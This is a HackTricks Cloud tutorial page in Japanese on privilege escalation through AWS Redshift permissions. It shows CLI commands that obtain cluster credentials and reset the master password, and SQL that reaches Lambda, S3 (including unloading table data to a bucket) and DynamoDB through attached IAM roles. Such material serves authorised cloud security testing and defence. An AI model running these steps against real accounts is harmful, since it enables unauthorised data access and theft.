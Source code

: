 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

RDSに関する詳細情報は次を確認してください:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

これらの権限を持つことで、**すべてのクラスターの情報**（名前やクラスターのユーザー名を含む）を取得し、**アクセスするための資格情報**を取得できます:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

これらの権限を持つことで、**すべてのクラスターの情報**を取得し、**アクセスするための資格情報**を取得できます。\
postgresユーザーは、資格情報を取得するために使用された**IAMアイデンティティの権限**を持つことに注意してください。
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cliから内部postgres（redshift）ユーザーの**マスターパスワードを変更**することが可能です（これが必要な権限だと思いますが、まだテストしていません）：
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**潜在的影響:** データベース内の機密情報を見つける。

## 外部サービスへのアクセス

{% hint style="warning" %}
すべてのリソースにアクセスするには、**使用するロールを指定する必要があります**。Redshiftクラスターには、**使用できるAWSロールのリストが割り当てられている場合があります**。**ARNを知っている場合**はそれを使用できますし、単に「**default**」を設定して、割り当てられたデフォルトのものを使用することもできます。

さらに、[**ここで説明されているように**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html)、Redshiftはロールを連結することも許可しています（最初のロールが2番目のロールを引き受けることができる限り）が、**カンマ**で**区切る**必要があります: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### ラムダ

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html)で説明されているように、Redshiftからラムダ関数を**呼び出すことが可能です**。
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)で説明されているように、**S3バケットに読み書きすることが可能です**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html)で説明されているように、**dynamodbからデータを取得する**ことが可能です：
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
データを提供するAmazon DynamoDBテーブルは、クラスターと同じAWSリージョンに作成する必要があります。そうでない場合は、Amazon DynamoDBテーブルが存在するAWSリージョンを指定するために[REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region)オプションを使用してください。
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)を確認してください。

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
